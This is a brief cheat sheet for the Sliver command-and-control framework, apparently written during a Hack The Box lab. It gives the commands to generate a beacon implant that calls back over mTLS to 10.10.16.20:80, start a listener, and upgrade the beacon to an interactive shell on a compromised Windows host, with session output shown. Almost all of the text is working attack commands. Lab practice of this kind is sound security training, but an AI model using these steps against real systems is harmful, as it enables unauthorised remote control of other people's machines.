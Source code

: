 # Sliver C2  
### Generate a beacon  
sliver > `generate beacon --mtls 10.10.16.20:80 --save /home/kali/HTB/lab/bc1.exe`  
  
### Setup the listener  
sliver > `mtls --lhost 10.10.16.20 --lport 80`  

### Navigate    
sliver > `jobs`  
sliver > `use beacons`   
Select the beacon using arrows to move    
  
Once in the beacon shell, it is possible to turn the beacon shell into a session (interactive) shell with the following command :   
sliver (SOLID_TINDERBOX) > `interactive`  
  
[] Using beacon's active C2 endpoint: mtls://10.10.16.20:80  
[] Tasked beacon SOLID_TINDERBOX (da51bf52)    
[] Session 437faed6 SOLID_TINDERBOX - 10.10.110.10:51443 (cywebdw) - windows/amd64 - Wed, 09 Aug 2023 13:16:42 EDT      
    
The new session appears :    
sliver (SOLID_TINDERBOX) > `sessions`     
| ID       | Transport | Remote Address     | Hostname | Username                      | Operating System | Health  |
| -------- | --------- | ------------------ | -------- | ----------------------------- | ---------------- | ------- |
| 437faed6 | mtls      | 10.10.110.10:51443 | cywebdw  | NT AUTHORITY\\NETWORK SERVICE | windows/amd64    | [ALIVE] | 
  
sliver (SOLID_TINDERBOX) > `use 437faed6`    
  
Now we got an interactive session shell.    





